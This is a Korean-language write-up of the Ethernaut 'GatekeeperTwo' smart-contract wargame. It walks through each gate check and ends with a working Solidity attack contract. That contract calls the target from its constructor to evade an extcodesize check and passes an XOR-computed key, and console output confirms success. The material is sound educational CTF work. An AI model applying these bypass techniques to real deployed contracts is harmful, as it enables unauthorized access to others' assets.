 https://teberr.notion.site/Ethernaut-GateKeeperTwo-be5b690ed0704f6caca267ede1ae7143

![문제.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dc5a821e-a42b-4676-ac6f-2fa584a53e05/%EB%AC%B8%EC%A0%9C.png)

> 이 단계를 통과하기 위해서는 gatekeeper를 통과하고 entrant로 등록하세요

힌트:
- 1번 게이트는 이전 문제와 동일합니다.
- solidity 어셈블리는 [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) 에서 자세히 살펴볼 수 있습니다. 이번 문제에서 쓰인 extcodesize는 주어진 컨트랙트의 코드 크기를 반환합니다.
- ^ 연산자는 XOR 연산자입니다.
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

# 코드 분석 및 공격 설계

각 gate modifier를 통과하면 문제를 클리어할 수 있으므로 modifier를 하나 씩 살펴보자

### modifier gateOne()

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

1번 조건은 msg.sender와 tx.origin이 서로 같지 않아야 한다.

이때 msg.sender는 문제 컨트랙트를 호출한 주소를 의미하고 tx.origin은 트랜잭션을 처음 시작한 주소를 의미한다.

따라서 컨트랙트를 만들어서 

EOA → 공격 컨트랙트 → 문제 컨트랙트

와 같이 작성하면 msg.sender는 공격 컨트랙트의 주소, tx.origin은 내 메타마스크 지갑 주소가 되어 1번 조건을 통과할 수 있다.

즉 1번 조건은 컨트랙트를 만들어서 이 문제를 해결하라는 뜻이다. 

### modifier gateTwo()

```solidity
  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
```

extcodesize(caller())의 결과를 x에 저장하고 x 값이 0이어야 한다.

이 때 어셈블리 extcodesize(caller())의 의미는 호출한 msg.sender의 코드 크기를 의미한다. 

1번 조건에서 컨트랙트를 작성하여 조건을 통과해야 함을 알았지만 그 컨트랙트가 이 문제를 호출할 때의 코드 크기는 0이어야 한다는 조건이다.

이 조건을 만족하기 위해서는 공격 컨트랙트의 constructor에서 문제 인스턴스에 접근하면 된다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GateKeeperTwo {
  constructor(){}
  function gateOne() public view returns  (address) {
    return msg.sender;
  }
  function gateTwo() public view returns(bool){
    uint x;
    assembly { x := extcodesize(caller()) }
    if(x == 0){
        return true;
    }else{
        return false;
    }
  
}

contract GateKeeperTwoAttack{
    address public msgsender;
    bool public result;
    address public msgsender2;
    constructor(address target){
        msgsender=GateKeeperTwo(target).gateOne();
        result=GateKeeperTwo(target).gateTwo();
        msgsender2=address(this);
    }
}
```

테스트를 위해서 컨트랙트를 직접 작성하여서 확인해보았다.

![테스트.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3a701e6d-de8f-491b-becd-56e6208e6158/%ED%85%8C%EC%8A%A4%ED%8A%B8.png)

공격 컨트랙트인 GateKeeperTwoAttack의 생성자에서 대상 컨트랙트인 GateKeeperTwo에게 실행한 결과이다. 각각

1. msgsender = GateKeeperTwo가 인지한 msg.sender의 주소 
2. msgsender2 = 공격 컨트랙트의 생성자에서 내 공격 컨트랙트의 주소를 확인
3. 생성자에서 gateKeeperTwo를 호출했을 때 extcodesize 값이 0인지 확인

테스트한 결과이다.

생성자에서 대상 컨트랙트extcodesize가 0임을 확인했으므로 정리해보면 2번 조건은 공격 컨트랙트의 생성자에서 대상 컨트랙트를 호출하라는 의미가 된다.

### modifier gateThree(bytes8 _gateKey)

```solidity
  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }
```

위 연산의 결과를 참으로 만족하는 gateKey 값을 알아내야 한다. 

이는 단순하게 등호의 양변에 같은 연산을 했을 때 결과가 바뀌지 않는 다는 점만 사용해도 풀린다.

uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max

의 양변에 uint64(_gateKey)를 XOR 연산을 하면 아래와 같은 식이 된다.

uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))  == type(uint64).max ^ uint64(_gateKey)

여기서 type(uint64).max를 양변에 XOR 연산을 하면 아래와 같이 된다.

uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))  ^ type(uint64).max ==  uint64(_gateKey)

즉 gateKey값을 구하는 식이 만들어졌다.

```solidity
gateKey = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max;
_gateKey=bytes8(gateKey);
```

이 식을 바탕으로 이제 공격하면 된다.

# 공격

먼저 인스턴스의 주소를 get new Instance를 통해 가져오면 아래와 같다.

```solidity
=> Instance address
0xE02e4fCd6deF64F020DCAc73d2F5cc4e3F398c45
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e8ca3e30-2bee-4045-8597-3199e93cf2fe/Untitled.png)

```solidity
await contract.entrant()
'0x0000000000000000000000000000000000000000'
```

이 entrant 값을 공격을 통해 내 메타마스크 주소로 바꿔주면 된다.

이를 바탕으로 위의 세가지 조건을 만족하는 공격 컨트랙트를 작성하자.

1. 공격 컨트랙트를 작성해야 한다.
2. 공격 컨트랙트에서 문제 인스턴스의 enter 함수에 접근할 때는 생성자(constructor)에서 접근해야 한다.
3. 공식에 따라 gateKey값을 계산하여 인자로 넣어줘야한다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperTwo {
  function enter(bytes8) external;
}

contract GateKeeperTwoAttack{

    constructor(address target){
        uint64 gateKey;
        bytes8 _gateKey;
        gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max;
        _gateKey=bytes8(gateKey);
        IGateKeeperTwo(target).enter(_gateKey);
    }
}
```

이 공격 컨트랙트를 대상 인스턴스를 인자로 하여 배포하는 트랜잭션을 발생시키면 공격이 수행된다.

```solidity
await contract.entrant()
'0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a'
```

공격 후 대상 인스턴스의 entrant 값을 다시 확인해보면 내 메타마스크 주소로 변경된 것을 확인할 수 있다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/180b17a0-2243-483c-944a-646da15cca2e/%EC%84%B1%EA%B3%B5.png)

submit instance로 제출하면 콘솔에서 성공적으로 공격을 하였음을 알리는 표시가 뜬다.
